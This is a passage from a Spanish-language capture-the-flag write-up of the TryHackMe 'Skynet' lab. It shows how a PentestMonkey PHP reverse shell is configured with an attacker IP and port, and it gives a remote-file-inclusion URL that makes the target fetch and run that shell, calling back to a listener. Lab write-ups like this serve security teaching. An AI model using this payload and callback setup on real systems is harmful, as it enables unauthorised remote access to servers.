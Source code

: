 2. Preparación del Script de Reverse Shell

Utilizaremos la reverse shell de PentestMonkey en PHP, la cual debemos configurar para que se conecte a nuestra IP y puerto de escucha.

💻 Modificaciones al Script:

Descargamos la reverse shell PHP (ej. php-reverse-shell.php).

Editamos la línea de IP para que apunte a nuestra IP de la VPN de TryHackMe (ej. 10.11.147.155).

Editamos la línea de PUERTO para que coincida con nuestro listener (4444).
````
PHP

$ip = 'TU_IP_KALI'; // CHANGE THIS
$port = 4444;       // CHANGE THIS
````
<img width="1049" height="790" alt="configuro reverseshell de pentestmonkey" src="https://github.com/user-attachments/assets/9f560ade-081d-4dfa-a479-4788182e176a" />


3. Ejecución del Exploit RFI
   
Finalmente, forzamos al servidor Skynet a incluir y ejecutar el script de nuestra reverse shell a través de la vulnerabilidad RFI, usando nuestra IP y el nombre del archivo.

<img width="1428" height="271" alt="aprovechamos rfi para ejecutar reverse" src="https://github.com/user-attachments/assets/dc7a22f1-db4a-4035-ac3a-b4c390958368" />

💻 URL Explotada (en el navegador o con curl):
````
Bash

http://10.10.40.222/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://TU_IP_KALI/php-reverse-shell.php
````

4. Acceso al Sistema

Al cargar la URL anterior, el script se incluye y se ejecuta, enviando una conexión de vuelta a nuestro listener de Netcat.

¡Éxito! Recibimos la conexión y hemos obtenido una shell con privilegios bajos (generalmente el usuario www-data o apache).

connecting to [TU_IP_KALI] port 4444

connection succeeded!


## 💻 Paso 18: Obtención de la Shell y Flag de Usuario (user.txt)

Tras configurar el servidor y el listener (Paso 17), el exploit RFI (alertConfigField.php?urlConfig=http://TU_IP_KALI/php-reverse-shell.php) se ejecuta en el servidor, dándonos nuestra primera conexión al sistema.

1. Recepción de la Shell
   
El listener de Netcat recibe la conexión, y confirmamos que hemos obtenido una shell con el usuario de bajos privilegios del servidor web.
